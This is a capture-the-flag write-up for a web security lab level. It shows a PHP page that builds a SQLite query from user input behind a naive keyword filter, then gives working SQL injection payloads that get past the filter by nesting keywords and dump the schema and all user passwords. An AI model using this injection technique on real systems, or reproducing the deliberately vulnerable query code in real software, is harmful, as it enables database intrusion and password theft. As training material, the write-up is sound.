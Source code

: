 # level02
## Source files  
source.php
```php
<?php
ini_set('display_errors', 'on');

class LevelTwo {
    public function doQuery($injection) {
        $pdo = new SQLite3('leveltwo.db', SQLITE3_OPEN_READONLY);

        $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
        $injection = preg_replace ('/' . $searchWords . '/i', '', $injection);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query ($query);
        $users = $getUsers->fetchArray (SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    $lt = new LevelTwo ();
    $userDetails = $lt->doQuery ($_POST['user_id']);
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>#WebSec Level Two</title>
    <link rel="stylesheet" href="../static/bootstrap.min.css" />
</head>
    <body>
        <div id="main">
            <div class="container">
                    <div class="row">
                        <h1>LevelTwo <small>Select the user by ID you wish to view</small></h1>
                    </div>
                    <div class="row">
                        <p class="lead">
                            This application is the same as the <a href="../level01/index.php">previous one</a> (You can <a href="./source.php">check by yourself</a> if you don't trust us). However, the developers saw the logs and found that the application was being attacked so they filtered out some of the database keywords which made it possible.<br />
                        </p>
                        <p class="lead">
                            The following keywords were found to be filtered by the application using <a href="https://secure.php.net/preg_replace">preg_replace ()</a>: <mark>union</mark>, <mark>order</mark>, <mark>select</mark>, <mark>from</mark>, <mark>group</mark>, <mark>by</mark>.
                        </p>
                    </div>
                </div>
            </div>
            <div class="container">
                    <?php if (isset ($userDetails) && !empty ($userDetails)): ?>
                        <div class="row">
                            <p class="well"><strong>Username for given ID</strong>: <?php echo $userDetails['username']; ?> </p>
                            <p class="well"><strong>Other User Details</strong>: <br />
                                <?php 
                                $keys = array_keys($userDetails);
                                $i = 0;

                                foreach($userDetails as $user) { 
                                    echo $keys[$i++] . ' -> ' . $user . "<br />";
                                } 
                                ?> 
                            </p>
                        </div>
                    <?php endif; ?>

                    <div class="row">
                        <form name="username" method="post">
                            <div class="form-group col-md-2">
                                <input type="text" class="form-control" id="user_id" name="user_id" placeholder="1" required>
                            </div>
                            <div class="form-group col-md-2">
                                <input type="submit" class="form-control btn btn-default" name="submit">
                            </div>
                        </form>
                    </div>
                </div>
            </div>
        </div>
        <script type="text/javascript" src="../static/bootstrap.min.js"></script>
    </body>
</html>
```
## Writeup  
`preg_replace()` function is added to delete `union`, `order`, `select`, `from`, `group`, `by` from input string. However... what happens if user input is `uunionnion`? `preg_replace()` function works and user input will be changed to `union`. In this way, `preg_replace()` function is not a problem for us :)

Then, the way to solve is same with level01.
1. enumerate table_schema (refered [cheatsheet](https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet))  
`999 UbyNION SbyELECT 1,sql FbyROM sqlite_master WHERE type='table';--`
2. One of its users' passwords is the flag  
`999 UbyNION SbyELECT 1,GbyROUP_CONCAT(password) FbyROM users;--`  
